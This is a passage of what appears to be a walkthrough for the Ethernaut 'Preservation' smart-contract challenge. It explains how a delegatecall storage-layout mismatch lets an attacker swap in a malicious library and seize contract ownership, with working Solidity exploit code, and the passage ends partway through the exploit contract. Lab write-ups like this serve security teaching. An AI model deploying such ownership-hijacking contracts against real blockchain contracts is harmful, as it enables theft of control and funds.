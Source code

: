 2. But the LibraryContract has this storage layout:
   - slot 0: `storedTime` (uint256)

3. When the Preservation contract does a `delegatecall` to the LibraryContract's `setTime` function, the function tries to modify `storedTime` which is at slot 0 in the LibraryContract. However, since the function runs in the context of the Preservation contract, it will modify the variable at slot 0 in the Preservation contract, which is `timeZone1Library`.

### Exploit Steps

1. **Deploy a Malicious Library**: Create a contract that has the same storage layout as the Preservation contract. This ensures that when we modify variables, they target the correct slots:
   ```solidity
   contract MaliciousLibrary {
       // Match storage layout of Preservation
       address public timeZone1Library;
       address public timeZone2Library;
       address public owner;
       uint256 storedTime;
       
       function setTime(uint256 _time) public {
           // When called via delegatecall, this will modify the owner variable
           owner = address(uint160(_time));
       }
   }
   ```

2. **Replace the Library Address**: Call `setFirstTime` with the address of our malicious library converted to uint256. This replaces the `timeZone1Library` address with our malicious library:
   ```solidity
   preservation.setFirstTime(uint256(uint160(address(maliciousLibrary))));
   ```

3. **Take Ownership**: Call `setFirstTime` again. Now that the `timeZone1Library` is our malicious contract, this call will delegatecall our malicious `setTime` function, which will set the owner to our desired address:
   ```solidity
   preservation.setFirstTime(uint256(uint160(address(this))));
   ```

### Full Exploit Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IPreservation {
    function setFirstTime(uint256 _timeStamp) external;
    function setSecondTime(uint256 _timeStamp) external;
    function owner() external view returns (address);
}

contract MaliciousLibrary {
    // Match storage layout of Preservation
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    
    function setTime(uint256 _time) public {
        // When called via delegatecall, this will modify the owner variable
        owner = address(uint160(_time));
    }
}

contract PreservationExploit {
    IPreservation public preservation;
```